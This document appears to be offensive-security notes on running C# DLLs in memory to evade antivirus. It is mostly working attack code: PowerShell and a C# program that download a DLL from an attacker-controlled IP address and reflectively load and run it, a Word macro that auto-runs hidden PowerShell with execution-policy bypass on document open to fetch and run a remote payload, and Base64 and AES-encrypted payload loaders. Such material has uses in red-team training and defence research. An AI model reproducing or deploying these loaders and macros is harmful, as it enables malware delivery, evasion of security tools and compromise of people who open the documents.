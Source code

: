 
C# templates for various techniques such as process injection and process hollowing can be built within a DLL using Visual Studio. The DLL can then be reflectively loaded with PowerShell and executed in memory. This is a highly preferable way to execute code due to AV engines having a difficult time analysing the files.


```csharp
using System;
using System.Diagnostics;
using System.Reflection;
using System.Reflection.Emit;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        // Ensure the main method is public static void
        // Enusre methods in the embedded c# code are public and accessible
        // Ensure correct 'using' statments required within the shellcode runners are inserted at the top
        public static void Main()
        {
          // Main code logic goes here
        }
    }
}
```

After compiling, use the following PowerShell code to execute by invoking the DLL from a URL

```powershell
$webClient = New-Object System.Net.WebClient
$data = $webClient.DownloadData('http://127.0.0.1:7711/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("Main")
$method.Invoke([NullString]::Value, @())
$webClient.Dispose()
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()
```

We can even execute directly from a Macro
```vba
' Possibly doesnt work when Applocker / CLM is enabled

Sub Document_Open()
    RunPowerShell
End Sub

Sub AutoOpen()
    RunPowerShell
End Sub

Sub RunPowerShell()
    Dim psCommand As String

    psCommand = "powershell -ExecutionPolicy Bypass -Command " & _
                Chr(34) & _
                "$webClient = New-Object System.Net.WebClient; " & _
                "$data = $webClient.DownloadData('http://192.168.45.187:7711/ClassLibrary2.dll'); " & _
                "$assem = [System.Reflection.Assembly]::Load($data); " & _
                "$class = $assem.GetType('ClassLibrary2.Class2'); " & _
                "$method = $class.GetMethod('Main'); " & _
                "$method.Invoke($null, @()); " & _
                "$webClient.Dispose(); " & _
                "[System.GC]::Collect(); [System.GC]::WaitForPendingFinalizers();" & Chr(34)

    Shell psCommand, vbHide

    '  Wait for some time to ensure the script has time to execute
    Wait 5
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
Or compile the follwing cs file to invoke through a binary
```csharp
using System.Net;
using System.Reflection;

namespace RunDLL
{
    class Program
    {
        static void Main(string[] args)
        {

            WebClient client = new WebClient();
            var Data = client.DownloadData("http://192.168.1.144:7711/ClassLibrary1.dll");

            var Assem = Assembly.Load(Data);
            var loadedClass = Assem.GetType("ClassLibrary1.Class1");
            var loadedMethod = loadedClass.GetMethod("Main");

            loadedMethod.Invoke(null, null);
            client.Dispose();
            System.GC.Collect();
            System.GC.WaitForPendingFinalizers();


        }
    }
}
```

Additionally, revoke the need for invoking from URL and store the DLL as a Base64 data blob, decode within the script and load reflectivley 
```powershell
$base64Data = "BASE64_ENCODED_DLL_DATA"
$data = [System.Convert]::FromBase64String($base64Data)
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("Main")
$method.Invoke([NullString]::Value, @())
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()
```
An even better method for loading without invoking from URL would be to store the DLL as an encrypted byte array within the script, decrypt and load into memory
```powershell
Function DecryptAES {
    param ($encryptedBuf, $Key, $IV)
    
    $AES = [Security.Cryptography.SymmetricAlgorithm]::Create('AES')
    $AES.Key = $Key
    $AES.IV = $IV

    $decryptor = $AES.CreateDecryptor()
    $memoryStream = New-Object -TypeName IO.MemoryStream -ArgumentList (,$encryptedBuf)
    $cryptoStream = New-Object -TypeName Security.Cryptography.CryptoStream -ArgumentList @( $memoryStream, $decryptor, 'Read' )
    
    $decryptedBytes = New-Object -TypeName Byte[] -ArgumentList $encryptedBuf.Length
    $decryptedByteCount = $cryptoStream.Read($decryptedBytes, 0, $decryptedBytes.Length)
    
    $cryptoStream.Close()
    $memoryStream.Close()
    
    return $decryptedBytes[0..($decryptedByteCount - 1)]
}

$base64Data = "BASE64_ENCODED_DLL_DATA"
$encryptedData = [System.Convert]::FromBase64String($base64Data)

$Key = [System.Convert]::FromBase64String("BASE64_AES_KEY")
$IV = [System.Convert]::FromBase64String("BASE64_AES_IV")
$decryptedData = DecryptAES -encryptedBuf $encryptedData -Key $Key -IV $IV

$assem = [System.Reflection.Assembly]::Load($decryptedData)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("Main")
$method.Invoke([NullString]::Value, @())

[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()
```
